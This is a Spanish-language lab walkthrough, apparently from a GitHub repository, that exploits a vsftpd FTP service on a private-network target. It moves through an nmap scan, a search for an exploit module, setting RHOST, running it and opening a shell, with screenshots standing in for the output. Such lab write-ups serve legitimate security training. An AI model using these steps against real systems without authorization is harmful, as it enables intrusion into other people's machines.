 # Vulneración mediante el servicio FTP

No podemos iniciar a trabajar sin saber que tenemos alcance, por eso realizaremos un análisis de sus puertos y de los servicios que están disponibles.  
Para esto nos apoyaremos de la herramienta `nmap` con el siguiente comando:

```bash
nmap -sV 192.168.222.131 
```

![Escaneo de puertos con Nmap](https://github.com/user-attachments/assets/08d5d404-3bf6-40b6-aaba-69b70e00629e)

Se visualiza que el puerto 21 ofrece un servicio de FTP. Para esto, realizaremos una búsqueda filtrada con la palabra clave **"vsftpd"**.

![Búsqueda de exploit para vsftpd](https://github.com/user-attachments/assets/f8dd4e3b-1012-4933-81d1-5745e20061ad)

Verificamos qué requisitos nos solicita este exploit para poder ejecutarlo, con el comando:

```bash
show options
```

![Opciones del exploit](https://github.com/user-attachments/assets/bd05d79b-cb1c-4351-a62b-1b2a2a033f17)

Se denota que nos hace falta ingresar el **RHOST**, lo cual sería la dirección de nuestra máquina objetivo:

```bash
set RHOST 192.168.222.131
```

![Estableciendo el RHOST](https://github.com/user-attachments/assets/c43872ea-942a-468e-8a15-cf547573be03)

Ejecutamos con el comando:

```bash
run
```

![Ejecución del exploit](https://github.com/user-attachments/assets/2701e9ae-4e27-42fa-a6ea-0bdb4c6a60c8)

Ingresamos el comando `shell` para que la interfaz de escritura sea parecida a la de nuestra máquina principal:

```bash
shell
```

![Acceso a shell](https://github.com/user-attachments/assets/1b94e196-88b3-4214-9324-067df3a14d03)
